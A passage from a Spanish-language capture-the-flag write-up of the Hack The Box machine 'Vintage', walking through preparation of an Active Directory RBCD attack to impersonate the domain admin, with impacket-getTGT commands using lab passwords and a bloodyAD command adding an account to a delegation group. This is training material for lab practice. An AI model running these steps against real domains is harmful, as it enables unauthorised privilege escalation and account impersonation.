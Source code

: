 En este punto, el objetivo es conseguir una cuenta que disponga de un SPN ficticio para realizar el **RBCD Attack** y poder impersonar al Domain Admin (l.bianchi\_adm@vintage.htb).

Revisando los usuarios que disponemos de sus credenciales que tenemos (owned), recoradmos que disponemos de los siguientes usuarios:

* P.Rosa -> usuario que añadimos a que forme parte del grupo "SERVICEMANAGERS@vintage.htb" y que disponemos de sus credenciales.
* svc\_sql -> tenemos las credenciales de este usuario y control total sobre él mediante (P.Rosa@vintage.htb) y (GMSA01$@vintage.htb).&#x20;
* C.Neri -> solamente tenemos acceso a las credenciales de este usuario.
* C.Neri\_adm -> este usuario forma parte del grupo "DELEGATEDADMINS" y tiene la capacidad de añadir usuarios a este grupo.

Con esto en mente, la estrategia es aprovechar el usuario **svc\_sql** para generar un SPN ficticio y asignárselo mediante (P.Rosa@vintage.htb), quien tiene control total sobre svc\_sql y puede modificar su _ServicePrincipalName_ (SPN), lo que nos permitirá ejecutar el ataque.

Para ello, primero solicitaremos el TGT (Ticket Granting Ticket) del usuario (c.neri\_adm@vintage.htb), almacenaremos el ticket en la variable _KRB5CCNAME_ y validaremos que sea un ticket válido y se encuentre correctamente almacenado.

```bash
impacket-getTGT vintage.htb/c.neri_adm:Uncr4ck4bl3P4ssW0rd0312

export KRB5CCNAME=c.neri_adm.ccache

klist -e
```

<figure><img src="../../../.gitbook/assets/2751_vmware_GcQbPaPYdn.png" alt=""><figcaption></figcaption></figure>

Con el TGT del usuario (c.neri\_adm@vintage.htb) añadiremos al usuario (svc\_sql@vintage.htb) al grupo de (delegatedadmins@vintage.htb), ya que los miembros de este grupo pueden realizar el **RBCD Attack**.

Una vez añadido el usuario al grupo, procederemos a solicitar el TGT (Ticket Granting Ticket) del usuario (P.Rosa@vintage.htb) para posteriormente seguir con la explotación del ataque.

{% code overflow="wrap" %}
```bash
bloodyAD -d vintage.htb --host dc01.vintage.htb -k add groupMember 'DELEGATEDADMINS' 'SVC_SQL'

impacket-getTGT vintage.htb/P.Rosa:Rosaisbest123

export KRB5CCNAME=P.Rosa.ccache

klist -e
```
{% endcode %}
